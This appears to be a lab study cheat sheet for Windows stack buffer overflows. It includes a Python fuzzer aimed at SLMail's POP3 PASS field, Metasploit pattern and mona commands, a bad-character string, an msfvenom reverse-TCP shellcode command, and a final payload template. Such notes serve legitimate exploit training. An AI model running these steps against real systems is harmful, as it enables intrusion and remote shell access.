#BUFFER OVERFLOW

## 1- SPIKING

generic_send_tcp 10.10.10.10 9999 stats.spk 0 0

{stats.spk}
s_readline();
s_string("STATS );
s_string_variable("0")

RESULT: SEGMENTATION FAULT

## 2- TEST SIZES
``` 
#!/usr/bin/python
import socket
# Script for Fuzzing SLMail POP3 Service's PASS Parameter
counter = 100
while counter <= 3500:
	try:
		buffer = "A" * counter

		print "Fuzzing PASS with %s bytes" % len(buffer)

		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.settimeout(30)
		connect=s.connect(('192.168.1.200',110))
		s.recv(1024)

		s.send('USER test\r\n')
		s.recv(1024)
	
		s.send('PASS ' + buffer + '\r\n')
	
		s.send('QUIT\r\n')
		s.close()
		counter = counter + 200
	except socket.timeout:
		print "\nCrash Byte of PASS Parameter: %s" %  (len(buffer)-200)
		exit(0)

```

RESULT: EIP OVERWRITE WITH "A" (41414141)

## 3- LOCATE OFFSET 

{PATTERN_CREATE}
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length>

RESULT: EIP VALUE

{PATTERN_OFFSET}
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <length> -q [EIP VALUE REVERSED]
  
RESULT: OFFSET

## 4- VERIFY EIP CONTROL

PAYLOAD = A*[OFFSET] + B*4 + C*[FILL VALUE]

RESULT: EIP OVERWRITE WITH "B" = 42424242

## 5- SHELLCODE SPACE

TEST SOME LENGTHS FOR "C":

PAYLOAD = A*[OFFSET] + B*4 + C*[FILL SIZE 1] ==> EIP IS NOT 42424242

PAYLOAD = A*[OFFSET] + B*4 + C*[FILL SIZE 2] ==> EIP 424242

RESULT: FILL SIZE

## 6- BADCHARS

"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

"A"*OFFSET + "B"*4 + BADCHARS + C*[FILL SIZE]

## 7- GENERATE SHELLCODE

msfvenom -p windows/shell/reverse_tcp LPORT=4444 LHOST=10.10.10.10 -b "\x00\x0a\x0d\x20" –e x86/shikata_ga_nai -f c

RESULT: SHELLCODE

## 8- LOCATE JMP

- !mona modules (look for modules without protection)

- NASM
1. usr/share/metasploit-framework/tools/exploit/nasm_shell.rb (displays nasm prompt)
2. jmp esp
==>FFE4

!mona find -s '\xff\xe4' -m module.dll

RESULT: JMP ESP ADRESS

## 9- COMPOSE FINAL EXPLOIT

payload = JUNK + RET_ADRESS + NOPS + SHELLCODE + JUNK

payload = "\x41" * <length> + <ret_address> + "\x90" * 16 + <shellcode> + "\x43" * <remaining_length>
